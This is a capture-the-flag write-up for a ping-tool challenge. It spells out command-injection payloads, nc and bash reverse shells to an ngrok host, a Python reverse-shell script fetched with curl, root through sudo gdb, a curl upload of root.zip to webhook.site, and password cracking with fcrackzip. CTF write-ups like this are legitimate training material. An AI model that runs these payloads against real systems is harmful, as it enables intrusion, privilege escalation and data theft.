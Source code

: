 # Pong (root flag) (500p)
## Challenge Description  

<em> If you successfully uncovered the hidden vulnerability in the web-based ping tool and retrieved the initial flag, your mission isn't over yet. The evil AI Wintermute has left decoy flags and removed the root-flag to mislead you. Your next objective is to find the root flag and finally defeat Wintermute to save the summer.

Author: Mikael Svall  
https://ping.appsec.nu/ </em>

## Thought Process
1. Initially I tried getting a reverse shell directly in the input, with commands like:
	- `|nc${IFS}-e${IFS}/bin/sh${IFS}2.tcp.eu.ngrok.io${IFS}15137`
	- `|bash${IFS}-c${IFS}"bash${IFS}-i${IFS}>&${IFS}/dev/tcp/2.tcp.eu.ngrok.io/15137${IFS}0>&1"`
None of my attempts worked however so I had to figure out another way.
2. It's important to check which binaries even exist on the server, that way you don't try in vain to make a solution work which would never work to begin with. For this I used `|which${IFS}*program_name*`. `nc` for example doesn't exist, so any reverse shells based on this binary would never work. Crucial to my progress was finding out that both `python` and `curl` exists.

## Solution
### Ngrok
"Ngrok is a cross-platform application that creates secure tunnels (paths) to localhost machine. It enables developers to expose a local development server to the Internet with minimal effort. The software makes your locally-hosted web server (like computer, laptop, rasbery PI) appear to be hosted on a subdomain of ngrok.com, meaning that no public IP or domain name on the local machine is needed."

I have configured my ngrok client to do the following:
```
Forwarding                    https://0246-194-0-227-191.ngrok-free.app -> http://localhost:8000 
Forwarding                    tcp://2.tcp.eu.ngrok.io:17271 -> localhost:4545
```
- The first line means that when I serve http on localhost port 8000, for example with `python -m http.server 8000`, that content is also publicly accessible through `https://0246-194-0-227-191.ngrok-free.app`.
- The second line means that when I listen for incoming TCP connections on localhost port 4545, for example with `nc -lvp 4545`, I am also listening on tcp address `2.tcp.eu.ngrok.io` on port `17271`.  
This comes in handy for solving the challenge!  

I bet it's easier to solve this challenge if you use the listener given to you through the Listener challenge, as that machine is presumably in the same network as the Ping server, meaning you can forget about all the port forwarding.

### Solution Steps
1. Create a file with your python reverse shell on your local machine. I name it `dependencies.sh`, and it contains the following code (it's probably still there on the server):
`export RHOST="0.tcp.eu.ngrok.io";export RPORT=11786;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'`.  
`RHOST` is my publicly accessible tcp address while `RPORT` is the associated port. I have configured Ngrok so these map to address `127.0.0.1` and port `4545` respectively.
2. Serve your `dependencies.sh` file on your local machine, in my case `python -m http.server 8000`. Now we can upload the file to the server: `|curl${IFS}https://13bb-194-0-227-191.ngrok-free.app/dependencies.sh${IFS}--output${IFS}dependencies.sh`.
3. I verify that it exists on the server and then set execute permissions on it: `|chmod${IFS}+x${IFS}dependencies.sh`
4. I start my listener on my machine to catch the reverse shell: `nc -lvp 4545`
5. I execute the script on the server: `|bash${IFS}dependencies.sh`
6. Boom, we're in. Now time for privilege escalation. The first thing you should probably do is check if any users are allowed to run programs as another user, preferrably root. Check with `sudo -l`. We see that we can run `gdb` as root. We immediately head over to [gtfobins](https://gtfobins.github.io/#) to check if we can do any shennanigans with the `gdb` binary.
7. We can indeed use `gdb` to get root, as gtfobins suggests: `sudo gdb -nx -ex '!sh' -ex quit`
8. We head over to `/root` and see a `flag.txt`, but this flag has been compromised. We also see a `root.zip`, perhaps this contains the flag? We try `unzip root.zip` but this binary does not exists on the server. Let's just transfer it to our machine and unzip it there. We send it to our webhook proxy: `curl -F data=@root.zip https://webhook.site/4584b408-34fa-4386-908a-23864e23c647`. We can then download it from webhook to our machine.
9. Turns out the .zip file is password protected, let's use a wordlist attack with rockyou.txt: `fcrackzip root.zip -u -D -p rockyou.txt`. You could also run `zip2john` on the file and use `john` to crack it. In this file lies the flag! 
